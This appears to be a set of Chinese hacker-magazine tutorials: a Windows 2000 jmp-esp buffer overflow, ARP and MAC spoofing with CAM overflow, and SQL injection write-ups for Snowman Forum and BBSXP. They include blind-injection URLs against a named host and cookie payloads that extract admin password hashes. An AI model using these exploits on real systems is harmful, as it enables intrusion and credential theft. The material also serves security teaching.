很好，现在我们可以指定程序运行指定内存地址的代码了，这样可以先写一段对我们有利的代码放在内存中，当溢出发生时，只要跳转到那里运行就可以了。怎么知道这段代码在什么地方呢？

我们先在Overflow里面添加4个a看看（共有24个a，4个b，4个c），重新单步运行一下，在ret停下来，仔细观察寄存器eip、ebp和esp的值。此时eip保存一个不相关的地址，ebp保存了overflow.txt中第17到第20个字符，而esp保存了堆栈的地址，在我这里esp为`0012FF84`，再按一下F10，你会发现eip变成了`62626262`，ebp保持没变，esp加了4。

这里太重要了！eip的作用是程序下一步的运行地址，esp的作用是指向堆栈中下一个数据。显然程序在运行ret时，esp弹出了内存中`0012FF84`的数据作为返回地址，这里保存的是什么？是我们填充的4个b，所以系统跳到`0x62626262`运行去了，弹出后esp+4，由于堆栈是连续存放数据的，可以推测esp+4后指向的内存中保存的是cccc。

好，在这里暂停一下，理清一下思路。我们可以控制程序的流程，一些对我们有利的代码也被带到了堆栈中（上面的例子中，我们假设4个c为对我们有利的代码），并且esp寄存器由于ret运行弹出4个b，而指向cccc。这时，我们只要再运行一下`jmp esp`，就可以跳到esp所指的对我们有利的代码处。

我们怎么运行`jmp esp`呢？答案是在内存中找！Windows系统在启动时，总要加载一些必要的动态链接库文件，这些文件中就有我们需要的`jmp esp`代码，只要知道具体内存地址，我们就成功了。利用文章刚开始的时候我们修改的在内存中查找FF E4的程序（FF E4是`jmp esp`的机器码），可以在user32.dll中查找到FF E4，在我们这个例子中使用Kernel32.dll，因为它更有通用性。



> 脚本小子：这个find不是系统自带的find程序，而是一个小工具，下载地址是：http://analysist.tocare.net/upload/attach/ZZOV_find.zip，大家可以用它来找到系统内存中加载的FF E4。

用这个小程序找到系统加载的dll中`0XFF 0XE4`的位置。



看，在我的机器上可以找到两处，用UltraEdit打开overflow.txt，使用二进制模式编辑，修改原来bbbb四个字符为：`E3 29 E6 77`，保存。再运行一下，出现如下错误提示：


很好，我们已经可以跳到有趣的地方了，剩下的就很简单了，先删除4个c，再参照ipxodi的shellcode继续添上就可以，确定一切没问题了以后，运行一下！如果顺利，你就可以看到command.com了。

要提醒的是：不同版本的机器溢出点不同，你必须找到自己的溢出点。但是一般来说，同一版本的KERNEL32.DLL或USER32.DLL，`jmp esp`位置是相同的。比如我写本文的时候，就先后用了两台不同的Win2k adv serv + sp3，但是溢出点是完全一样的，这也就证明了溢出程序的通用性，一般只要稍微修改就可以在Win2k所有版本上运行。

其实真正的溢出要比这个复杂很多，特别是很多定位问题，不过由于缓冲区溢出问题在很早以前就被发现并利用，所以实际上已经有一整套基本完善的步骤，加上Shellcode的通用性，使得写缓冲区溢出攻击程序已经不像以前一样困难。

另外，由于改变了程序运行流程，常常会造成DOS攻击，一个好的溢出程序必须要考虑这个问题，否则一旦溢出不成功，就不可以再利用了！

以上是我在学习Windows下缓冲区溢出一点收获，希望对大家有帮助，有任何问题可以到analysist.tocare.net讨论，如有错误，还望指正。谢谢！

> 脚本小子：本文是针对Windows 2000 SP3高级版的实验，www417表示，虽然针对SP3；但实际上，只要简单修改关键数据就可以针对SP4了。为了给读者留一个动手实验的机会，他才没有全做，否则读者做什么呢？还能提高水平么？

如果你不想敲那么多代码，可以去下载调试好的源程序，完整的源代码到：http://www417.tocare.net/download/overflow.zip 下。

# 以太网第二层协议

文／delphij

- 难度等级：中
- 适合读者：网络管理员、攻击者
- 前置知识：ARP欺骗基本原理

提到ARP欺骗，相信大多数读者都已经对其非常了解。在2003年的黑防中，我们专门对ARP欺骗的攻击和防御方法作了专门的介绍，不过这些问题似乎并没有得到足够重视，今天让我们再来仔细体会一下其在以太网第二层协议中发挥的威力。





数据链路层协议在OSI参考模型中处于第二层，因此，也被称作第二层协议。在我们通常使用的局域网（以太网）上，这一层协议的设计是存在安全缺陷的。本文将介绍常见的3种针对第二层协议的攻击：IP<-->MAC绑定伪造、CAM溢出攻击和主机伪造，以及针对Cisco设备的缓解这些攻击的方法。

许多校园网的设计情形中，采用了IP<-->MAC绑定的方法来阻止IP的盗用，其原理是在路由器（或网关）上将IP和MAC实施绑定，这样一来，其他网卡（固化的MAC地址应该不同）在一般情况下将无法使用绑定在其他MAC地址上的IP。

很显然，这是一个似是而非的解决方案。据笔者了解，目前为止除了笔者所在的学校的少数网段之外，几乎没有正确地完成了MAC绑定的校园网。这种方法很容易受到攻击，因为：

- 网卡的MAC地址很容易被修改。这方面的资料网上有很多，这里不再赘述。
- 如果另一台电脑开机，则很容易知道它的MAC地址；即使没有开机，也可以通过本文中提到的方法得到那个MAC地址。
- 本质上，没有配合交换机上的MAC—端口绑定，起不到作用；而一旦配合交换机上的MAC端口绑定，不仅设置麻烦，而且将丧失灵活性。

### 1 IP<-->MAC绑定伪造

下面开始针对IP<-->MAC绑定介绍其攻击方法。我们的目的非常简单：

- 通过某种方式获得被冒充主机的MAC地址。
- 用那个地址和对方的IP接入网络。

在对方开机的情况下，完成这些工作并不复杂。在以太网上，为了通知其他机器自己的MAC地址，协议要求我们将自己的MAC地址“广播”出去。既然是广播，那么，无论是交换机还是集线器，所有在同一网络上的机器都会收到这个地址。

为了利用这个协议上的功能，我们执行下面的命令：

```text
arp -a -d
ping -n 1 192.168.1.1
arp -a
```

第一条命令清空本地arp缓存（这一步不是必须的，只是为了减少第三步中的无用输出），第二条命令试探`192.168.1.1`（被攻击主机的IP）。毫无疑问地，我们必须在实施攻击之前就物理地接入这个网络，并且设置一个广播域一样的地址，例如，`192.168.1.224/255.255.255.0`。

事实上，完成ping之后我们已经做完了几乎所有的工作——被袭击的主机会按照协议把自己的MAC地址告诉我们。于是，在第三条命令的时候我们将看到类似这样的输出：



好了，现在我们知道了`192.168.1.1`的MAC地址是`000753036f07`。有了这个数据，就可以很容易地冒充`192.168.1.1`那台机器了——把我们的MAC地址也设置成它，并且，把IP改为`192.168.1.1`。

是的，你也许已经注意到，哪怕是`192.168.1.1`那台机器自己也无法察觉你的存在！因为根据协议，你们之间是无法相互察觉的（MAC是以太网上用以识别设备身份的主要依据。如果设置成了不同的IP地址，而MAC地址相同，则两台机器通常将无法直接通信；此外，如果两台有相同MAC地址的机器接到了同一个交换机上，它们对外的连接通常都会变得不稳定）。

> 脚本小子：这种攻击的防范办法将在下文提到，在此暂且不表。

现在考虑复杂一些的情况。如果那台机器没有开机，或者，它的防火墙完全阻止了你的企图，应该怎么办呢？答案非常简单，利用网关／路由器——因为绑定是在那一端完成的，因此，它们必然知道这些MAC地址。为了达到目的，我们需要另一台在其他网段的能够连接过来（至少，没有在中间被Block掉）的机器，以及一个Sniffer工具。

在Sniffer中设置过滤器：任意IP <--> `192.168.1.1`，任意TCP/IP协议。随后，由其他网段的机器连接`192.168.1.1`，任意端口或协议——这不重要，可以是浏览器上的 `http://192.168.1.1`，也可以是 `Telnet 192.168.1.1` 等等。此时，我们在本地Sniffer中将监听到来自路由器的广播，如果对方没有开机，则抓包如图1所示：



红色圈出的区域是我们需要关注的。事实上，这就是我们想得到的MAC地址。这里简单说一下原理：交换机会缓存自己每个端口上的一定数量的MAC地址，如果找不到匹配的，则包会被发送到所有的端口。这意味着，我们几乎一定能够获得我们想要的MAC地址；当然，也就因此能够使用别人的IP。对于这种攻击，网管自然也不会是完全束手无策，不过，在介绍对策之前，先看看另外两种更可怕的攻击。

## 监听任意交换机端口（CAM溢出攻击）

交换机带给我们的好处不仅仅是性能上的大幅提升，还有安全性的改善，因为（原则上）如果通讯和某个端口完全无关，那么，那个端口就不会得到相关的会话数据。回忆Hub上的情形，我们几乎没有任何办法来阻止监听（Sniffing），而对于交换机，直接的监听变得非常困难，因为交换机不会把无关的数据发到我们所在的端口。

不幸的是，这并不是全部的事实。前面提到，如果交换机无法找到与端口匹配的MAC地址记录，它就只能把消息发到每一个端口，另一方面，一个交换机端口就不能连接网络了）。

出于成本的考虑，交换机上用于保存“MAC<->端口”映射的内存，也就是通常所说的 CAM，其容量是非常有限的，这也就意味着，如果我们通过耗尽 CAM 使得其无法找到本地网络中的 MAC 地址，就可以把交换机变成一个 Hub，从而得到所有的网络通信。在某些型号的交换机上可以找到“镜像（Mirror）口”，这样的端口是留给类似 IDS 这样的设备用来监听整个网络中的流量的，一旦遭遇 CAM 溢出攻击，则每一个端口都会如镜像口一样得到整个网络的所有流量。由于交换机的 CAM 是“先来先淘汰”的，因此，可以编写一个 Perl 脚本，循环执行 ifconfig 将网卡绑定到不同的 MAC 地址，并通过 ifconfig down/up 来强制 ARP 广播，这样就可以让无效的 MAC 数据充满 CAM，进而达到目的。

在笔者撰写本文的时候，还有许多交换机（特别是无法进行配置的那些低档交换机）都没有采用非常有效的方法来抵抗这种攻击，因此，这种攻击方法一定要慎重，不要造成大的危害。

# 主机伪造

这种攻击实际上是第一种攻击的另一种形式，只是更加巧妙。接入同一以太网的机器通常使用 ARP 广播来宣传自己的 MAC 地址。为了完成本地网络的通信，发起连接的主机必须首先获得对方的 MAC 地址，于是，它广播消息“who has [IP] tell [MAC]”，接收连接的主机则回应“[IP] is-at [MAC]”。

然而，为了避免每次通信都首先通过广播查找别人的 MAC 地址，每台机器都要在本地留一个 ARP Cache。为了适应网络中主机的变化，这个 Cache 的内容通常都是随着其他主机的 ARP 广播而改变的。

于是，我们的第三种攻击方法，就是以足够快的速度广播自己的 MAC 地址和 IP 之间的关系，来“淹没”受害主机的 ARP 广播。由于 ARP Cache 的作用，这将导致本地网络中的其他机器至少是暂时无法与受害的主机连接。这种现象在局域网中通常的表现就是 IP 被抢占，很明显，这会很快被用户发觉。然而，我们可以构造一个更加复杂的攻击，即抢占网关的 IP，并藉此伪造 Internet 上的任意一台主机。

自然，这需要一份稍作修改的内核的支持（即本机发出的到网关的报文直接发给真正的网关的 MAC 对应的网卡，而接收发给自己的 IP），但即使在没有网管参与的情况下，这种攻击不仅可能，而且通常还很难察觉，特别是对于经验不多的网管来说尤其如此，因为他们可能并不经常察看服务器和路由器的日志，或许根本不会看，而用户的多数甚至所有的数据都会通过这台伪造的网关。这意味着用户很难保证其收发数据的安全性，如果运用得当，这将带来更加严重的问题。

> 脚本小子：在 2003 年《黑客防线》杂志中，我们详细介绍过 ARP Sniffer 攻击和防范相关的一些知识，结合以前的那几篇文章来读本文，你的体会一定更加深刻！

# 攻击后果

上面 3 种攻击方法本身可能都不致造成太严重的问题，但也不尽然，因为作为防守的一方永远是处于被动的地位。防守一方需要为用户提供方便性，并维持网络的整体性能，而攻击的一方完全可能违反游戏规则。第一种攻击能够非常有效地导致被攻击主机的连接变得不稳定，而且，这种攻击只有在交换机的日志上才能够查到，而据笔者了解，很少有网管有察看交换机日志的习惯，这意味着至少能够为网络制造各种各样莫名其妙的问题。第二种攻击则可以被用来实施特权提升，如果进攻者攻入了本地网络中的某台机器，安装监听程序，并执行攻击脚本，那么，他将很有可能得到一些其他服务器／终端泄露的很敏感的信息，从而为进一步的攻击提供条件。第三种攻击的效果和第二种攻击类似，它也可以导致绝大多数网络流量经过攻击者能够控制的机器。由于被攻击的是网关这样通常无人值守的节点，这类攻击除了让网络略微变慢之外，并不会造成容易引起人重视的严重后果，因此，其潜在危害也就更大。

## 总结

现在的某些网络的确很脆弱，虽然网络中也存在它的原则和法律（协议），但是这个法律还不是很健全，因此别有用心者能够非常容易地利用协议的不足。不过，相信 IPv6 会给网络的安全带来更多的保证。另外，作为一个管理员，时时刻刻都要做好网络安全的防范，关于以上几种攻击的防范方法，我们将在后册介绍。

| 项目 | 内容 |
|---|---|
| 漏洞描述 | 跨库查询。可以暴露任意库中任意表中字段的值。 |
| 漏洞发现者 | 成都理工大学 safer |
| 测试、利用 | 宴要饭的！safer |
| 组织站点 | www.CnWILL.com；www.CnHack.cn |



# 从“雪人论坛”到入侵坛——“Snowman Forum”SQL Injection 漏洞分析

## 前言

昨天，上选修课时候看 3 月的《黑客防线》，产生了写个关于论坛漏洞分析的想法。可后来上网查找时发现比较出名的论坛都被各位前辈查得差不多了，都闷闷中。这时一个朋友说雪人论坛改得很漂亮，于是就去逛了逛，“顺便”测试了它的安全性。你还别说，还真找到了漏洞并顺利拿到了权限，现在把发现、利用、入侵的全部经过写出来，希望能通过漏洞而找到更好的防护方法。

## 漏洞的发现过程

雪人网站上面只有一个论坛，其他什么都没有，目前在网上找不到这个论坛的漏洞资料。在他的论坛里面发现了有提供免费版下载的地方，从端口分析也开了 1433，推断出这个论坛应该用了 MSSQL 数据库！

呵呵，如果让我们找到一个 SQL 注入漏洞，成功入侵的机会就大大地有了。来！老方法，下载它的免费版看看代码！

雪人论坛的程序要求 Windows NT 主机 + Access/SQL Server 2000 数据库，网上能下的都是 for Access 的。首先下载了一个最新的 SF2.0 for Access 版本，然后打开所有类似于 **.asp?id=** 的 ASP 代码查看，如 editpost.asp 等文件。

我看完了 13 个 ASP 文件，打开下一个，很幸运地找到了它过滤参数的一条语句，看了一下，这个 [ChkSql] 对提交的 ID 过滤了单引号，又通过 [IsNumeric] 判断是不是数字。哇！这明显就完全地过滤了漏洞。可是，[editpost.asp] 程序员误笔，差点没有让我笑出声来！过滤是过滤了，就是过滤错了！

## 漏洞原理分析

```asp
err = false

postid = ChkSql(Request("postid"))

if not IsNumeric(postidid) then
```

判断一个对象是否为数字，返回布尔值“是/否”。

上面就是产生漏洞的语句了。

按常理来说这样的设置应该是安全的，postidid 只有是数字才可以通过，但这里程序员忽视了 “IsNumeric” 是对 “postidid” 做过滤，而真正要使用的却是 “postid”，所以这里的 “postid” 没做任何过滤，我们可以方便地查询数据库里的管理员密码了！请看下面的漏洞代码：

```asp
err = true
else
    StrSql = "select * from sf_post where postid = " & postid
    Set rs2 = Conn.Execute(StrSql)
    if rs2.bof or rs2.eof then
        err = true
    else
        posttitle = rs2("title")
        threadid = rs2("threadid")
        userid = rs2("userid")
        StrSql = "select * from sf_thread where visible = 1 and threadid = " & threadid
        Set rs2 = Conn.Execute(StrSql)
        if rs2.bof or rs2.eof then
            error = true
        else
            threadtitle = rs2("title")
            forumid = rs2("forumid")
            open = rs2("open")
        end if
    end if
end if
```

经过分析，delpost.asp、showthread 等文件均有此漏洞！我们开工吧！

## 详解入侵过程 for Access 版

好，下面我们直接来测试它！

```text
http://cnwill.com/editpost.asp?postid=513' or 0<>(select count(*) from sf_user)
```

查询是否有 sf_user 表。

```text
http://cnwill.com/editpost.asp?postid=513' and 0<>(select count(*) from sf_user where username<>'')
```

查询 sf_user 表里是否有 username 列。

```text
http://cnwill.com/editpost.asp?postid=513' and 0<>(select count(*) from sf_user where password<>'')
```

查询 sf_user 表里是否有 password 列。

依次猜下去（如果猜对的话，页面就可以正常显示）。

猜管理员用户名长度：

```text
http://cnwill.com/editpost.asp?postid=513' and exists(select min(userid) from sf_user where len(username)=8 and userid=1)
```

猜管理员密码长度：

```text
http://cnwill.com/editpost.asp?postid=513' and exists(select min(userid) from sf_user where len(password)=16 and userid=1)
```

密码用 MD5 加过密一般是 16 位，猜出 MD5 加过密的密码后就放高速肉鸡上跑吧……

## 查询管理员密码

```text
http://cnwill.com/editpost.asp?postid=513' and exists(select min(userid) from sf_user where left(password,1)='C' and userid=1)
```

min(userid) 是最小 ID，也可以换成 max(userid) 最大 ID。and userid=1，是更改管理员在 sf_user 表的 ID 号。left 是从 password 列的左边猜密码，right 是从 password 列的右边猜密码，根据经验最好是左右开工，这样猜起来速度比较快！

```text
http://cnwill.com/editpost.asp?postid=513' and exists(select min(userid) from sf_user where left(password,2)='Cr' and userid=1)
```

## 后记

经过测试，雪人 for SQL 的版本同样存在这样的漏洞，但是普通方法不行！可以使用“跨库查询”来得到它所有的内容（具体内容请看往期《黑客防线》上的文章），具体入侵过程就不在这里讲了，希望能引起程序编写者的足够重视！

修补方法就是在 editpost.asp 等文件中，把：

```vb
if not IsNumeric(postidid) then ****
```

这条语句替换成：

```vb
if not IsNumeric(postid) then ****
```

即可修补这个漏洞了！

> 脚本小子：大家还记得我们上次分析了 bbsxp 的 usertop.asp 和 setup.asp 这两个文件吗？因为这两个东西比较有趣，而且分析起来还有点味道，但如果按照这种倒着往下看的趋势继续下去，接下来的就是冗长而又无聊了。为何我们不换一种思考方式呢？今天让脚本小子带你一起去续谈 BBSXP 漏洞吧。

# BBSXP 漏洞续谈



- 难度等级：高
- 适合对象：脚本爱好者
- 前置知识：脚本漏洞常识，BBSXP 的漏洞分析技巧
- 文／起农家

我想也许漏洞本身并不是那么重要，借着这个机会学点其他东西可能更好，所以想尝试着换种写法。和上次说的 usertop.asp 一样，usercp.asp 一开始就调用了 top 子过程，这毫无疑问的是漏洞。进一步地，这个漏洞有另外的逻辑错误——top 子过程甚至在判断 Cookies 是否合法的前面。这里还有一个两难问题，top 子过程中自己就先判断了 Cookies 的存在性，在外面继续又判断了一次，效率上的问题且不说，不管哪一个起了作用，也不管两个之间顺序如何，结果总有一个是多余的。从这些小的地方就可以看出来，BBSXP 从一开始规划就是不严谨的，而且可能每个开发者仅仅是负责自己的模块，之间也缺乏交流，存在如此多的缺陷也是在情理之中的。

# 漫谈漏洞

继续往 usercp.asp 的下面看，还有许多让人迷惑的地方，这里简单地列出来：

```asp
[54] sql="select * from [user] where username='"&Request.Cookies("username")&"'"

[69] <%=conn.execute("Select count(id) from message where incept='"&Request.Cookies("username")&"'")(0)%>
[70] <%=conn.execute("Select count(id) from message where author='"&Request.Cookies("username")&"'")(0)%>
...
[90] sql="select top 5 author,content,time from message where incept='"&Request.Cookies("username")&"' order by time Desc"
...
[126] sql="select top 5 * from forum where dettopic<>1 and username='"&Request.Cookies("username")&"' order by lasttime Desc"
```

好像都是漏洞。同一个文件里面有 5 个漏洞，加上前面的那一个，也算是前无古人了。但是有漏洞不见得能够利用，这是亘古不变的真理。细细看一下 setup.asp 中 top 的定义就知道，后面几个东西，都是没有利用价值的，原因是被 setup.asp 中的 top 给挡住了：

```asp
sql="select * from [user] where username='"&Request.Cookies("username")&"'"
rs.Open sql, Conn, 1, 3
if Request.Cookies("userpass")<>rs("userpass") then
    Response.Cookies("username")=""
```

这 3 句话使得后面的几个没有了利用价值。想想我们利用的时候，无非是构造一个特殊的查询条件，如果涉及到跨表的话，所有的 6 个查询都是同为真或同为假的结果，这样的结果只看第一个就可以了，后面的几句都失去了存在的意义。而如果不涉及到跨表查询的话，看看每一个指定的表名就可以知道，不同的表内部包含的列名是不一样的，执行中必然会因为列不存在而出现查询失败的情况。这种情况下，要是第一句出错，后面的不会执行，利用就失败了；要是后面的出错，只用第一句的结果就可以判断正误，中间的就算没有出错也毫无用处。

这样的解释似乎太过荒诞了而且逻辑上难懂，要是不太明白的话，可以把 Cookie 中的 username 分别换成 `admin' and left(userpass,1)<>'E` 以及 `admin' and 2>(select count(*) from [user] where left(userpass,1)<>'E') and '1'='1` 来看看，心里走一遍这个文件的流程就清楚了。因为前一个漏洞而被“屏蔽”掉的这些漏洞也要好好地收捡起来，以后要是 setup.asp 中的 top 被补上了，说不定作为后备力量的还可以被下一次利用。

